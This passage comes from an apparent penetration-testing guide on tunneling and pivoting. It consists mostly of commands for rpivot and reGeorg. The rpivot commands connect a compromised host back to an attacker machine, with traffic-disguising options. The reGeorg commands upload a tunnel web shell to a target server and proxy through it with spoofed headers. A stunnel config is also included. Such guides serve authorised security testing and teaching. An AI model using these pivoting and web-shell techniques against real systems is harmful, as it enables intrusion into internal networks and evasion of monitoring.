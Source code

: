## 10. Cross-Platform Tunneling Solutions

:::note
All examples in this section assume you have downloaded or cloned the respective tool repositories (e.g., rpivot, reGeorg, stunnel, dnscat2) and fulfilled any dependencies. Substitute IP addresses, script paths, and ports to fit your scenario.
:::

### 10.1 rpivot: HTTP-Based Tunneling

rpivot provides HTTP/HTTPS tunneling with SOCKS proxy capabilities:

```bash
# Server setup (attacker machine)
python rpivot_server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-port 9050

# Client connection (compromised host)
python rpivot_client.py --server-ip attacker_ip --server-port 9999

# HTTPS mode for encrypted tunneling
python rpivot_server.py --server-port 443 --server-ip 0.0.0.0 --proxy-port 9050 --ssl

# Client with custom headers
python rpivot_client.py --server-ip attacker_ip --server-port 9999 --user-agent "Mozilla/5.0"

# Client through HTTP proxy
python rpivot_client.py --server-ip attacker_ip --server-port 9999 --proxy proxy_host:8080
```

### 10.2 reGeorg: Web Application Tunneling

reGeorg creates tunnels through web application servers:

```bash
# Upload tunnel script to web server
# tunnel.aspx, tunnel.php, tunnel.jsp, or tunnel.py

# Start reGeorg client
python reGeorgSocksProxy.py -p 8080 -u http://target/tunnel.php

# Client with authentication
python reGeorgSocksProxy.py -p 8080 -u http://target/tunnel.php -H "Cookie: PHPSESSID=abc123"

# Client with custom headers
python reGeorgSocksProxy.py -p 8080 -u http://target/tunnel.php -H "User-Agent: Custom" -H "X-Forwarded-For: 127.0.0.1"
```

### 10.3 Stunnel: TLS Encryption Wrapper

Stunnel provides TLS encryption for arbitrary protocols:

```bash
# Server configuration (stunnel.conf)
[https]
accept = 443
connect = 80
cert = /etc/stunnel/cert.pem
key = /etc/stunnel/key.pem

# Client configuration
[https]
accept = 8080
connect = server_ip:443
```
